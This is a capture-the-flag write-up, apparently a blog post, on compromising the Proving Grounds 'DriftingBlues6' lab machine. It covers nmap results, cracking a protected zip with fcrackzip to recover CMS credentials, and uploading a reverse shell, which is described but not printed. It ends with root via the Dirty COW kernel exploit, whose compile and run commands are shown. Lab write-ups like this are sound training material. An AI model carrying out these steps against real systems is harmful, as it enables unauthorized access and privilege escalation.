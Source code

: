 ```yaml
---
title: "Proving grounds Play: DriftingBlues6"
layout: post
date: 2023-09-10 01:00
categories: writeup
---
```


Proving grounds Play - DriftingBlues6 CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: driftingblues
|_http-server-header: Apache/2.2.22 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/web.png)

## Fuzzing for files

/robots.txt

**Robots File**

```text
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

### Login

http://192.168.151.219/textpattern/textpattern/

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/login.png)

Zip file found at `http://192.168.151.219/spammer.zip`. File is password protected and which can be easliy cracked using `fcrackzip` tool.

```sh
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt spammer.zip
```

Extracted password: `myspace4`

Extracted `creds.txt` has login credentials for the CMS application.

```text
mayer:lionheart
```

Login to the application and upload reverse shell.

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/upload.png)

Checked the document root configuration and triggered the reverse shell file.

**Initial foothold obtained**

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/shell.png)

## Privilege Escalation

Check the kernel version to escalate privileges.

```sh
uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
```

Linux kernel <3.2.0-4-amd64 is vulnerable to [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839).

Download the exploit into the attacking machine and compile the code as mentioned in the exploit.

Run the exploit as follow:

```sh
gcc -pthread dirty.c -o dirty -lcrypt
./dirty password #password is the password for the user firefart created by the exploit
```

Switch user to `firefart` and use the password `password`.

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/root.png)

**Root shell obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).